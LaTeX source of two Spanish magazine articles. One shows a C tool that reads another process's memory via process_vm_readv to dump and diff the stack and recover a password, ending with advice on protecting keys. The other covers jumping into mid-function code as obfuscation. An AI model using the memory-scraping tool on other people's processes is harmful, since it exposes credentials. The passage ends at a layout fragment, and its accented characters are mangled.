#include <string.h>
#include <unistd.h>

char *clave = "ClaveSuperSecreta";

int main () {
  char buf[1024];
  printf ("PID: %ld (buf: %p)\n", getpid(), buf);
  printf ("S3DY3. Sistema Super Secreto de "
          "Yvil Yenius\n");
  printf ("(c) Yvil Yenius\n");
  printf ("Introduce la clave: ");
  gets (buf);
  if (strncmp (buf, clave, strlen(clave)) == 0) {
    printf ("Acceso al sistema guay\n");
    getchar ();
  } else {
    printf ("Mala suerte\n");
    getchar();
  }
}
\end{lstlisting}

El t�pico programa que pide una clave al usuario y tras comprobar que es
correcta permite el acceso a la parte del programa interesante. Para
facilitar las cosas y no tener que buscar el PID del proceso en cada
prueba que hagamos, hemos hecho que el programa lo muestre al comenzar,
como dir�an los matem�ticos: \emph{Sin p�rdida de generalidad}. En otras
palabras, encontrar el PID del proceso de inter�s es una simple cuesti�n
de utilizar {\verb!ps!} y
{\verb!grep!}.

\hypertarget{tuxe9cnicas-de-hackeo-de-juegos}{%
\sectiontext{white}{black}{T�CNICAS DE HACKEO DE JUEGOS}\label{tuxe9cnicas-de-hackeo-de-juegos}}

Uno de las primeras utilidades que utilic� para le hackeo de juegos hace
muchos, muchos a�os, era un programa residente para MS-DOS (lo que se
conoc�a como TSRs \emph{Terminate-and-Stay-Resident}) que tomaba
snapshots de la memoria al pulsar cierta combinaci�n de teclas. La
utilidad funcionaba tal que as�:

\begin{itemize}

\item
  Iniciabas el juego
\item
  Pulsando una tecla especial, el juego se paraba y entrabas en un
  interfaz en modo texto donde pod�as hacer varias cosas. Una de ellas
  era tomar un snapshot de la memoria.
\item
  Luego si, por ejemplo, quer�as vidas infinitas, perd�as una vida a
  proposito y hac�as otro snapshot.
\item
  Con este segundo snapshot, la utilidad era capaz de buscar las
  posiciones de memoria que hab�an cambiado desde el principio,
  asumiendo que el n�mero de vidas estaba almacenado en alg�n lugar de
  la memoria y se hab�a decrementado en 1.
\end{itemize}

En el primer ciclo, normalmente obten�as un mont�n de direcciones
modificadas, pero seg�n ibas repitiendo el proceso, cada vez el n�mero
era menor hasta que con un poco de tiempo pod�as encontrar la posici�n
de memoria que conten�a el n�mero de vidas y modificarlo para que
tuviera un n�mero muy alto o incluso congelar esa posici�n de memoria
para que no se pudiera volver a modificar.

Como pod�is ver, esta forma de hackeo puede ser muy efectiva y no
requiere de ning�n tipo de habilidad especial como ser capaz de hacer
ingenier�a inversa sobre el c�digo m�quina, o utilizar depuradores para
analizar el juego de forma din�mica. Creo recordar que la utilidad tra�a
un desensamblador y pod�as examinar el c�digo para descartar
direcciones, pero la verdad es que la memoria me falla un poco :). Que
m�s d�\ldots. Son cosas de la edaaaadddd. (esta referencia musical es
bastante reveladora :))

\begin{entradilla}
{\em Hacer snapshots de memoria y compararlos es una t�cnica cl�sica de hackeo de juegos}
\end{entradilla}


Siguiendo este mismo principio vamos a escribir un programa con el que
obtener la clave que introduce el usuario en el programa anterior,
haciendo snapshots de la memoria del proceso. Original eh?

\hypertarget{leyendo-memoria-de-un-proceso}{%
\sectiontext{white}{black}{LEYENDO MEMORIA DE UN PROCESO}\label{leyendo-memoria-de-un-proceso}}

Hay tres formas de leer la memoria de un proceso en Linux:

\begin{itemize}

\item
  Usando la llamada al sistema {\verb!ptrace!}
\item
  Leyendo el fichero {\verb!/dev/PID/mem!}
\item
  Usando la llamada al sistema
  {\verb!process_vm_readv!}
\end{itemize}

Para nuestra utilidad vamos a utilizar la �ltima t�cnica\ldots{}
b�sicamente por que las otras dos ya sabemos como funcionan y quer�amos
probar algo nuevo. Algo que fuera una aventura. Algo misterioso. Algo de
chocolate\ldots{} y que sea una sorpresa.

Veamos el c�digo de la utilidad y luego entremos en los detalles.

\begin{lstlisting}[language=C]
#define _GNU_SOURCE
#include <stdio.h>
#include <string.h>
#include <unistd.h>

#include <stdlib.h>
#include <sys/types.h>
#include <sys/uio.h>

#define BLK_SIZE 1024 

int
main (int argc, char *argv[]) {
  long          addr;
  size_t        size;
  pid_t         pid;
  int           piped = 1;
  unsigned char *buf;
  
  if (!isatty(1)) piped = 0;
  if (piped) {
    printf ("UHG! Utilidad para el Hackeo de Games!\n");
    printf ("%s", "Version 1.0 (c) Yvil Yenius\n");
  }
  if (argc != 4) {
    fprintf (stderr,
          "Usage:\n%s pid mem_addr mem_size\n",argv[0]);
    exit (1);
  }
  pid = atoi (argv[1]);
  addr = atol (argv[2]);
  size = atol (argv[3]);

  buf = malloc (size);
  struct iovec local[1];
  struct iovec remote[1];
  ssize_t      nread;

  local[0].iov_base = buf;
  local[0].iov_len = size;
  remote[0].iov_base = (void *)addr;
  remote[0].iov_len = size;
  if (piped)
    printf ("Reading %lx bytes from %p\n",
             size, (void*)addr);
  nread = process_vm_readv (pid, local, 1, remote, 1, 0);
  if (nread  != size) {
    perror ("process_vm_readv:");
    exit (EXIT_FAILURE);
  }
  // Output to std out
  int n;
  for (int i = 0; i < size;) {
    n = size - i < BLK_SIZE ? size - i : BLK_SIZE;
    nread = write (1, buf+i, n);
    i +=nread;
  }
  return 0;
}
\end{lstlisting}

El principio del programa no tienen nada especial. Se trata del t�pico
c�digo para procesar los par�metros que recibimos por la l�nea de
comandos. En este caso el PID del proceso al que queremos acceder, la
direcci�n de memoria y el tama�o de la misma que queremos leer. En un
momentito veremos de donde sacar esas direcciones de memoria.

La llamada al sistema {\verb!process_vm_readv!}
utiliza la estructura {\verb!struct iovec!} al igual
que las funciones de entrada/salida vectorizadas
{\verb!readv!} y {\verb!writev!}. Esta
estructura nos permite definir un conjunto de buffers en los que
recibir/leer los datos o en los que almacenar los datos a
enviar/escribir. A diferencia de {\verb!readv!} y
{\verb!writev!},
{\verb!process_vm_readv!} necesita dos de estas
estructuras. La primera define los bloques de memoria en los que vamos a
almacenar los datos que leemos del proceso y la segunda indica los
bloques de memoria que queremos leer del proceso remoto. Como pod�is ver
en este caso, el direcci�n remota y el tama�o son par�metros que pasamos
por la l�nea de comandos.

\begin{entradilla}
{\em \verb!process_vm_readv! es una llamada al sisteam que nos permite leer la memoria de cualquier proceso}
\end{entradilla}

La parte final del programa simplemente vuelca los datos en formato
binario en la consola.

S�. Usamos la funci�n {\verb!isatty!} para saber si
estamos siendo ejecutados en solitario o como parte de un
{\verb!pipe!}. En este segundo caso no queremos mostrar
ning�n mensaje que pase al siguiente elemento del pipe. Somos g�ays o
qu�?

\columnbreak

\hypertarget{obteniendo-las-direcciones}{%
\sectiontext{white}{black}{OBTENIENDO LAS DIRECCIONES}\label{obteniendo-las-direcciones}}

La forma m�s sencilla de obtener las direcciones a pasar a nuestro
programa, es utilizando el pseudo sistema de ficheros
{\verb!/proc!}. En concreto leyendo el fichero
{\verb!/proc/PID/maps!}. Veamos como usar este fichero.

En una consola ejecutamos nuestro programa de ejemplo, el cual, tras
mostrar el mensaje de bienvenida (que afortunadamente nos muestra el PID
del proceso) quedar� esperando a que el usuario introduzca la clave.

\begin{lstlisting}
$ ./password1
PID: 977844 (buf: 0x7ffff68e7a70)
Introduce la clave:
\end{lstlisting}

Ahora que tenemos el PID, en otro terminal podemos ejecutar el siguiente
comando para obtener el mapa de memoria del proceso, el cual mostrar�
algo como esto:

\end{multicols}



\begin{lstlisting}[caption={Mapa del memoria del proceso a hackear}]
$ cat /proc/977844/maps
560ade949000-560ade94a000 r--p 00000000 fd:00 16777253   /tmp/password1
560ade94a000-560ade94b000 r-xp 00001000 fd:00 16777253   /tmp/password1
560ade94b000-560ade94c000 r--p 00002000 fd:00 16777253   /tmp/password1
560ade94c000-560ade94d000 r--p 00002000 fd:00 16777253   /tmp/password1
560ade94d000-560ade94e000 rw-p 00003000 fd:00 16777253   /tmp/password1
560adf006000-560adf027000 rw-p 00000000 00:00 0          [heap]
7fc4b0f03000-7fc4b0f06000 rw-p 00000000 00:00 0
7fc4b0f06000-7fc4b0f2c000 r--p 00000000 fd:00 84414023   /usr/lib/x86_64-linux-gnu/libc.so.6
7fc4b0f2c000-7fc4b1081000 r-xp 00026000 fd:00 84414023   /usr/lib/x86_64-linux-gnu/libc.so.6
7fc4b1081000-7fc4b10d4000 r--p 0017b000 fd:00 84414023   /usr/lib/x86_64-linux-gnu/libc.so.6
7fc4b10d4000-7fc4b10d8000 r--p 001ce000 fd:00 84414023   /usr/lib/x86_64-linux-gnu/libc.so.6
7fc4b10d8000-7fc4b10da000 rw-p 001d2000 fd:00 84414023   /usr/lib/x86_64-linux-gnu/libc.so.6
7fc4b10da000-7fc4b10e7000 rw-p 00000000 00:00 0
7fc4b10fd000-7fc4b10ff000 rw-p 00000000 00:00 0
7fc4b10ff000-7fc4b1100000 r--p 00000000 fd:00 84414011   /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7fc4b1100000-7fc4b1125000 r-xp 00001000 fd:00 84414011   /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7fc4b1125000-7fc4b112f000 r--p 00026000 fd:00 84414011   /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7fc4b112f000-7fc4b1131000 r--p 00030000 fd:00 84414011   /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7fc4b1131000-7fc4b1133000 rw-p 00032000 fd:00 84414011   /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7ffff68c8000-7ffff68e9000 rw-p 00000000 00:00 0          [stack]
7ffff69cb000-7ffff69cf000 r--p 00000000 00:00 0          [vvar]
7ffff69cf000-7ffff69d1000 r-xp 00000000 00:00 0          [vdso]
\end{lstlisting}

\begin{multicols}{2}

De cada l�nea nos interesan los 3 primeros campos y el �ltimo. Los dos
primeros son la direcci�n de inicio y fin de cada bloque de memoria. El
tercer campo nos indica los permisos, lo que nos permitir� identificar
bloques de c�digo (con el permiso {\verb!x!} de
ejecuci�n), bloques de datos (con los permisos
{\verb!rw!} de lectura escritura) y bloques de datos de
solo lectura (con el permiso {\verb!r!}). El �ltimo
campo nos indica a quien pertenece cada bloque de memoria. Podemos ver
bloques de memoria creados por la librer�a C est�ndar
({\verb!libc.so.6!}) y el linker din�mico
({\verb!ld-linux-x86-64!}), pero tambi�n bloques
especiales como el {\verb!heap!} o la pila.

\begin{entradilla}
{\em \verb!/proc/PID/maps! nos permite obtener el mapa de memoria de cualquier proceso desde la l�nea de comandos}
\end{entradilla}

Con esta informaci�n y nuestra peque�a utilidad podemos volcar cualquier
parte de la memoria del proceso cuyo mapa acabamos de obtener. Por
ejemplo:

\begin{lstlisting}
$ make uhg
cc     uhg.c   -o uhg
$ ./uhg 977844 $((0x560ade94b000)) $((0x2000)) | \
> strings -n5
ClaveSuperSecreta
PID: %ld (buf: %p)
Introduce la clave:
Acceso al sistema guay
Mala suerte
;*3$"
\end{lstlisting}

Tras compilar el programa lo ejecutamos usando los valores que hemos
extra�do del mapa de memoria del programa de ejemplo que est� siendo
ejecutado con PID {\verb!977844!}. La direcci�n elegida
corresponde a un bloque de solo lectura justo tras el bloque de c�digo,
lo que suele contener la secci�n {\verb!.rodata!} que
contiene las constantes usadas en nuestro programa. Ah� ya podemos ver
la clave, adem�s de todas las cadenas que el programa de ejemplo usa. En
lugar de usar {\verb!strings!} podemos redirigir la
salida de nuestro programa a {\verb!xxd!} para obtener
un volcado hexadecimal o volcarlo en un fichero.

En condiciones normales, la clave no deber�a estar almacenada como texto
plano. Deber�a ser un hash o algo por el estilo, as� que con lo que
acabamos de hacer no podr�amos obtenerlas en un caso real. Debemos
emplearnos m�s a fondo.

\hypertarget{extrayendo-la-clave-como-un-pro}{%
\sectiontext{white}{black}{EXTRAYENDO LA CLAVE COMO UN PRO}\label{extrayendo-la-clave-como-un-pro}}

Siguiendo la estrategia de la utilidad de hackeo de juegos que
mencionamos al principio vamos a volcar en un fichero un volcado de la
memoria que nos interesa al principio de la ejecuci�n del programa. En
este caso sabemos que el valor que el usuario introduzca se va a
almacenar en la pila, as� que vamos a usar nuestro programa para hacer
un volcado inicial de la pila.

Para nuestro programa de prueba todav�a en ejecuci�n, la pila se
encuentra en el �rea de memoria que va desde
{\verb!7ffff68c8000!} a
{\verb!7ffff68c8000!}. Teniendo en cuenta que la pila
crece hacia las direcciones bajas, nos interesa volcar las \emph{�ltimas
direcciones} del bloque de memoria que contiene la pila ya que nuestro
programa no hace demasiadas cosas. En tama�o a volcar puede requerir
cierta prueba y error. Para este programa en mi sistema, un valor de
{\verb!0x4000!} es suficiente para acceder al �rea de
la pila donde se encuentran los datos que nos interesan:

\begin{lstlisting}
$ ./uhg 977844 $((0x7ffff68e9000 - 0x4000)) \
> $((0x4000))| strings -n5
/lib/x86Q
Introduce la claoduce la clave:
////////////////
__libc_early_`
x86_64
./password1
SHELL=/bin/bash
SESSION_MANAGER=local/roor:@/tmp/.ICE-unix/1658,unix/lena:
/tmp/.ICE-unix/1658
WINDOWID=150994946
QT_ACCESSIBILITY=1
XDG_CONFIG_DIRS=/etc/xdg
--a partir de aqu� las variables de entorno continuan--
\end{lstlisting}

En lugar de volcar los datos en la consola, los vamos a volcar en un
fichero:

\begin{lstlisting}
$ ./uhg 977844 $((0x7ffff68e9000 - 0x4000)) $((0x4000)) \
> | strings -n 8 > 1.dump
\end{lstlisting}

Hemos aumentado el tama�o de las cadenas a buscar, pera obtener una
lista m�s corta. Ahora, dejaremos que el usuario introduzca la clave en
el programa de prueba y acceda a la parte interesante de la aplicaci�n:

\begin{lstlisting}
$ ./password1
PID: 977844 (buf: 0x7ffff68e7a70)
Introduce la clave: ClaveSuperSecreta
Acceso al sistema guay
\end{lstlisting}

En este punto, la clave introducida por el usuario est� en memoria y
podemos realizar un nuevo volcado de memoria:

\begin{lstlisting}
$ ./uhg 977844 $((0x7ffff68e9000 - 0x2000)) $((0x1000)) \
> | strings -n 8 > 2.dump
\end{lstlisting}

Y ahora solo tenemos que comparar ambos ficheros:

\begin{lstlisting}
$ diff 1.dump 2.dump
2c2,3
< Introduce la claoduce la clave:
---
>  al sistema guay
> ClaveSuperSecreta
\end{lstlisting}

Hay est� la clave introducida por el usuario!!

\hypertarget{proleguxf3menos}{%
\sectiontext{white}{black}{PROLEG�MENOS}\label{proleguxf3menos}}

Como pod�is ver, el uso de esta t�cnica para extraer claves es un poco
complicado, ya que requiere realizar acciones sincronizadas con otro
usuario. En realidad, el primer volcado lo podemos extraer de una
ejecuci�n que hagamos nosotros mismos, sin embargo, la segunda ejecuci�n
debe realizarse justo despu�s de que el usuario haya introducido la
clave, puesto cualquier llamada a funci�n posterior puede corromper la
pila y sobrescribir el valor introducido por el usuario. Esto sucede
porque en nuestro programa estamos almacenando la clave en la pila. En
caso de reservar memoria con {\verb!malloc!} en el
{\verb!heap!} o en una variable global en el
{\verb!.data!} segment no tendr�amos este problema.

Pod�is probar a hacer esta modificaci�n (almacenar la clave en el
\emph{heap}) y usar las direcciones del mapa de memoria que usa el
{\verb![heap]!} para extraer la clave. Ya me contar�is
como os ha ido.

\begin{entradilla}
{\em Puede ser necesario explorar los distintos bloques de memoria para encontrar la informaci�n que nos interesa}
\end{entradilla}

Ante esta situaci�n una soluci�n es ejecutar el programa en un depurador
(o engancharse al programa cuando se lance) y realizar el proceso
completo tras poner un breakpoint justo tras la llamada a la funci�n de
inter�s. Observad que cuando usamos esta t�cnica con juegos no tenemos
este problema puesto que somos nosotros mismos los que capturamos la
memoria en el momento adecuado.

Si bien, usar esta t�cnica en el mundo real puede no resultar viable en
la mayor�a de casos, si nos da ciertas ideas de que cosas deber�amos
hacer cuando manejamos claves en nuestros programas:

\begin{itemize}

\item
  No almacenar la clave como texto plano
\item
  Eliminar la clave de memoria (sobrescribiendo su valor) en cuando deje
  de ser necesaria. Tened en cuenta que liberar memoria no es suficiente
  en la mayor�a de los casos y realmente debemos sobrescribir el bloque
  de memoria que conten�a la clave.
\item
  Si la clave es necesaria por un largo periodo de tiempo, es mejor
  dise�ar el sistema para utilizar un valor binario derivado de la clave
  y no la clave en si misma.
\end{itemize}

Hay muchas posibilidades que explorar as� que no dud�is en enviarnos
vuestros hallazgos, o contarnos los problemas con los que os hab�is
encontrado.

\hypertarget{conclusiones}{%
\sectiontext{white}{black}{CONCLUSIONES}\label{conclusiones}}

Y esto es todo por hoy. En pr�ximas entregas profundizaremos en las
vicisituded de dirigir una organizaci�n clandestina y los problemas de
confianza con tus esbirros como genio diab�lico que eventualmente
dirigir� el mundo. Por el momento dejaremos a un lado los problemas
emocionales y �ticos de esa carga que algunos llevamos sobre nuestros
hombros estoicamente, sin embargo, llegar� un momento en el que no podr�
aguantar m�s y tendr� que dejar fluir el torrente de emociones que
inundan la psique de un genio diab�lico. Hasta entonces, se despide de
vosotros vuestra potencial todopoderosa regente del mundo. \EOP

\end{multicols}

\hypertarget{fpn:jump1}{}\label{fpn:jump}

\pagestyle{fpn}

\rput(7.9,-0.5){\resizebox{!}{14cm}{{\epsfbox{images/articulos/jump_header.eps}}}}

\psset{fillstyle=solid}
\psframe[fillcolor=black,opacity=0.7](2,-4.5)(17,0)



% -------------------------------------------------
% Cabecera
\begin{flushright}


{\color{introcolor}\mtitle{14cm}{Saltar en Medio de una Funci�n}}

\msubtitle{8cm}{Una nueva t�cnica de obfuscaci�n de c�digo}

{\sf\color{white}{ por Carolyn Lightrun}}

%{{\psset{linecolor=black,linestyle=dotted}\psline(-12,0)}}
\end{flushright}


\vspace{2mm}
% -------------------------------------------------


%\lstset{language=C,frame=tb,framesep=5pt,basicstyle=\footnotesize}
\lstset{language=C,frame=tb,framesep=5pt,basicstyle=\scriptsize}



\intro{introcolor}{E}{l otro d�a me pregunt�\ldots{} �C�mo podr�a hacer que un programa
saltara en medio de una funci�n?. Lo cre�is o no, hab�a una raz�n para
pensar eso, pero en el momento de escribir este art�culo no la
recuerdo\ldots{} Sin embargo, esa pregunta aparentemente est�pida, me ha
llevado a un viaje muy interesante que me gustar�a compartir con
vosotros.}


\begin{multicols}{2}


La verdad que a parte de una forma de ofuscar el c�digo y confundir a
los desesambladores/descompiladores, no se me ocurre ninguna otra raz�n
por la que intentar saltar en medio de una funci�n, pero bueno, quiz�s
la haya y acabe record�ndolo o alguno de vosotros me deis alguna idea.

La idea es algo como esto:

\begin{lstlisting}[language=C]
int foo () {
    puts ("Entramos en Funci�n foo");
en_medio:
    puts ("C�digo en medio de la funci�n");
    puts ("Salimos de Funci�n foo");
}
int main () {
   goto en_medio;
}
\end{lstlisting}

El c�digo de arriba no funciona pero su objetivo es solo ilustrar el
concepto del que vamos a hablar en este art�culo. La raz�n de que no
funcione es que las etiquetas (\emph{labels}) solo est�n definidas
dentro de la funci�n en la que se usan y no pueden ser usadas desde
fuera de ellas y, por lo tanto, {\verb!goto!} no tiene
ni idea de que estamos hablando cuando le decimos que salte a
{\verb!en_medio!}.

\hypertarget{setjmplongjmp}{%
\sectiontext{white}{black}{setjmp/longjmp}\label{setjmplongjmp}}

La primera soluci�n que se nos vendr�a a la cabeza ser�a utilizar las
funciones {\verb!setjmp!} y
{\verb!longjmp!}. Estas funciones para mi despiertan un
sentimiento de estar usando magia arcana y la verdad que solo las he
visto utilizar por c�digo bastante viejo del de los origines de UNIX y
el dialecto K\&R de C. Si os pregunt�is por su utilidad en el mundo
real\ldots{} bueno, nos permiten implementar en C un comportamiento
similar al de las excepciones de otros lenguajes.

Este es un ejemplo cl�sico de su uso:

\begin{lstlisting}[language=C]
#include <stdio.h>
#include <setjmp.h>

jmp_buf b1;

int foo () {
  puts (" > foo inicio\n");
  longjmp (b1, 1);
}

int main () {
  puts ("> main ()\n");
  if (setjmp (b1) != 0) {
    puts ("Llamada especial\n");
  } else
    foo ();
  puts ("> main fin\n");
}
\end{lstlisting}

La funci�n {\verb!setjmp!} marca un punto de retorno y
para ello almacena el estado actual del programa (el valor de los
registros del procesador y alguna cosa m�s) en una estructura global de
tipo {\verb!jmp\_buf!}. La funci�n comprueba el valor
de retorno. Si es cero, significa que es la primera ejecuci�n de la
funci�n y dicho de forma sencilla, estaremos grabando el estado actual
del programa al que volveremos en caso de que pase algo.

Si {\verb!setjmp!} retorna un valor distinto de cero,
significa que hemos vuelto a este punto del programa debido a una
llamada a la funci�n {\verb!longjmp!} y por tanto
debemos restaurar el estado y que todo siga como la primera vez que
llamamos a {\verb!setjmp!}.

En nuestro c�digo de ejemplo. La primera llamada a
{\verb!setjmp!} devolver� cero tras inicializa el
estado actual y, acto seguido, ejecutar� la funci�n
{\verb!foo!}.

La funci�n {\verb!foo!} hace sus cosas, y en un momento
determinado, algo pasa y ejecuta {\verb!longjmp!}
pas�ndole como par�metro el estado al que queremos retornar y el valor
que va a recibir {\verb!setjmp!}. Si, podemos enviar
distintos valores con distintas llamadas a
{\verb!longjmp!}. En nuestro c�digo, el efecto de este
{\verb!longjmp!} es la impresi�n del mensaje
{\verb!Llamada Especial!}.

{\verb!longjmp!} fuerza el retorno a la llamada
{\verb!setjmp!} anterior restaurando el estado, pero
devolviendo el valor 1, lo que hace que la condici�n se cumpla y
entremos en la parte {\verb!then!} del bloque
{\verb!if!}.

Parece que esto funciona super bien, as� que vamos a utilizarlo para
nuestro caso.

\begin{quote}
Como pod�is ver, estas dos funciones tambi�n nos permiten hacer un bucle
infinito de una forma bastante peculiar\ldots{} Si lo implement�is
\emph{Mostradnos el c�digo!}
\end{quote}

\hypertarget{saltando-con-longjmp}{%
\sectiontext{white}{black}{SALTANDO CON LONGJMP}\label{saltando-con-longjmp}}

Con todo lo que sabemos de {\verb!setjmp!} y
{\verb!longjmp!} podr�amos re-escribir nuestro programa
para saltar en medio de una funci�n de la siguiente forma:

\begin{lstlisting}[language=C]
#include <stdio.h>
#include <setjmp.h>

jmp_buf b1;

int foo () {
  puts (" > foo inicio\n");
  if (setjmp (b1) != 0) {
    puts ("Llamada especial\n");
  } else
    puts (" > foo final\n");
}

int main () {
  foo (); // poin setjmp
  longjmp (b1, 1);
}
\end{lstlisting}

En este caso, tenemos que hacer una llama extra a
{\verb!foo!} para poder ejecutar
{\verb!setjmp!} y almacenar el estado que nos permita
volver al punto en el que ejecutar nuestro c�digo especial. En otras
palabras, {\verb!setjmp!} va a definir el punto en
medio de la funci�n al que queremos saltar.

Bueno, si compil�is y ejecut�is este programa obtendr�is un fallo de
segmentaci�n. Lo que sucede es que estas funciones restauran los
registros y alguna informaci�n adicional, pero no pueden almacenar el
estado de la pila. Cuando las usamos como en el caso anterior en el que
{\verb!setjmp!} esta en el mismo marco de pila o
superior a {\verb!longjmp!} todo va bien, puesto que
{\verb!longjmp!} limpiar� la pila de forma autom�tica
al restaurar el segmento de pila. Pero si lo hacemos al rev�s,
{\verb!longjmp!} va a restaurar la pila a un posici�n
que era v�lida dentro de la funci�n, pero que ya no lo es y adem�s ha
podido ser modificada por otro c�digo que se haya ejecutado entre
medias.

\hypertarget{abusando-de-goto}{%
\sectiontext{white}{black}{ABUSANDO DE GOTO}\label{abusando-de-goto}}

Ya que la forma est�ndar de saltar entre funciones no ha funcionado como
esperamos, vamos a utilizar la forma m�s b�sica de saltar a una
determinada posici�n de memoria\ldots{}
{\verb!goto!}\ldots{} la instrucci�n maldita.

Una forma de implementar esto ser�a con el siguiente c�digo:

\begin{lstlisting}[language=C]
#include <stdio.h>

void *f1 = NULL;

int foo (int a) {
  f1 = &&label_foo1;
  puts ("> foo inicio");
  
  if (a) {
  label_foo1:
    puts ("Llamada especial");
    return 0;
  }
  printf ("> foo final\n");
  return 0;
}

int main () {
  puts ("> main ()");
  foo (0);
  goto *f1;
  puts ("> main fin");
}
\end{lstlisting}

Si bien, el programa es corto y tiene pocos elementos, hay muchas cosas
que explicar. Lo primero es la declaraci�n de un puntero como una
variable global (la primera l�nea despu�s de los includes). Este puntero
tiene que ser global puesto que la forma m�s directa de obtener un
puntero a una parte espec�fica de una funci�n es utilizando etiquetas, y
solo podemos acceder a las etiquetas de una funci�n desde esa misma
funci�n. Para poder acceder desde fuera tenemos que almacenar ese
puntero en un lugar que podamos leer desde otras funciones, como por
ejemplo\ldots{} Una variable global.

La siguiente l�nea que puede que os llame la atenci�n es

\begin{lstlisting}
f1 = &&label_foo1;
\end{lstlisting}

El operador {\verb!&&!} es espec�fico de gcc y nos
permite obtener la direcci�n de memoria asociada a una etiqueta. Dicho
esto la l�nea ya no tiene misterios. Estamos almacenando en el puntero
{\verb!f1!} la direcci�n de memoria a la que queremos
saltar.

Finalmente, la funci�n {\verb!main!}, incluye una
primera llamada a {\verb!foo!} con un par�metro para
inicializar el puntero global. Una vez inicializa podemos saltar usando
{\verb!goto!} simplemente dereferenciando el puntero.

Veamos si esta soluci�n funciona:�

\begin{lstlisting}
$ make jump-ex01
cc     jump-ex01.c   -o jump-ex01
$ ./jump-ex01
> main ()
> foo inicio
> foo final
Llamada especial
\end{lstlisting}

Pero parece que tenemos un problemilla con esta implementaci�n. �Pod�is
verlo?\ldots{}

\hypertarget{los-problemas-con-goto}{%
\sectiontext{white}{black}{LOS PROBLEMAS CON GOTO}\label{los-problemas-con-goto}}

El primer problema es que tras ejecutar el c�digo de la \emph{``Llamada
Especial''}, en lugar de retornar a {\verb!main!}
nuestro programa termina. Os imaginar�is que es lo que pasa. Cuando
retornamos de {\verb!foo!} al haber saltado en medio de
la funci�n, seguimos en el \emph{stack frame} de
{\verb!main!}, con lo que al restaurar el puntero de
pila y retornar, estamos efectivamente haciendo un
{\verb!return!} desde {\verb!main!}.

Esto lo podemos solucionar f�cilmente, forzando que la funci�n retorne
despu�s de la llamada especial pero sin restaurar el
\emph{stack\_frame}, algo como esto:

\begin{lstlisting}[language=C]
  if (a) {
  label_foo1:
    puts ("Llamada especial");
    __asm__ ("ret");
  }
\end{lstlisting}

Solo con esta modificaci�n el programa producir� una violaci�n de
segmento, ya que la direcci�n de retorno no est� en la pila y la
instrucci�n {\verb!ret!} que hemos introducido va a
saltar a una direcci�n aleatoria. Para solucionar esto, debemos
asegurarnos que el primer valor en la pila sea la direcci�n de retorno
correcta.

Podr�amos hacer todo esto insertando ensamblador, pero la verdad que
usar ensamblador en GCC de esta forma es muy engorroso, y cuanto m�s
ensamblador introduzcamos menos portable ser� nuestro programa. As� que
lo que vamos a hacer es decirle al compilador que en lugar de saltar
(usar la instrucci�n {\verb!goto!} que se convierte en
un {\verb!jmp!} en ensamblador), ejecute una funci�n
({\verb!call!}), la cual ya va a introducir en la pila
la direcci�n correcta para retornar.

Esto lo podemos hacer sustituyendo nuestro
{\verb!goto *f1!} por con una l�nea tan cr�ptica como
esta:

\begin{lstlisting}[language=C]
((int (*)())f1)();
\end{lstlisting}

La l�nea anterior simplemente hace un cast de nuestra direcci�n de
memoria en medio de {\verb!foo!} a una funci�n, y luego
le dice al compilador que invoque la funci�n (los
{\verb!()!} del final). Esto har� que el compilador
introduzca una instrucci�n {\verb!call!} que es lo que
necesitamos.

El otro problema de usar {\verb!goto!} es que la forma
en la que lo hemos usado es una extensi�n de GCC y no sigue el est�ndar,
el cual indica que solo podemos usar como par�metro a
{\verb!goto!} etiquetas locales. Sin embargo, con la
�ltima modificaci�n que hemos hecho, ya hemos solucionado ese problema
al dejar de utilizar {\verb!goto!}.

\hypertarget{mejorando-nuestro-ejemplo}{%
\sectiontext{white}{black}{MEJORANDO NUESTRO EJEMPLO}\label{mejorando-nuestro-ejemplo}}

Vamos a extender nuestro programa de ejemplo, a�adiendo dos puntos de
entrada a la funci�n {\verb!foo!} y utilizando punteros
a funciones directamente, de forma que no es necesario utilizar esos
casts tan extra�os como el que vimos en la secci�n anterior.

El programa ser�a algo como esto:

\begin{lstlisting}[language=C]
#include <stdio.h>

int (*f1)() = NULL;
int (*f2)() = NULL;


int foo (int a) {
  f1 = &&label_foo1;
  f2 = &&label_foo2;
  puts ("> foo inicio");
  
  if (a) {
  label_foo1:
    puts ("Llamada especial 1");
    __asm__ ("ret");
    
  label_foo2:
    puts ("Llamada especial 2");
    __asm__ ("ret");

  }
 label_end:
  puts ("> foo final");
  return 0;
}

int main () {
  puts ("> main ()");
  foo (0);
  f1();
  f2();
  puts ("> main fin");
}
\end{lstlisting}

Sin sorpresas verdad?. Simplemente hemos declarado nuestras variables
globales {\verb!f1!} y {\verb!f2!}
como punteros a funciones, y as� la llamada en
{\verb!main!} a ambas etiquetas es tan sencilla como
llamar a un funci�n.

El programa funciona correctamente y ahora, lo que vamos a hacer, es
intentar que las llamadas especiales no se puedan ver claramente cuando
el programa es desensamblado. Como referencia, esto es lo que vemos con
el programa tal cual con {\verb!objdump!} y con {\verb!radare2!}:

\end{multicols}




\begin{minipage}{0.48\linewidth}
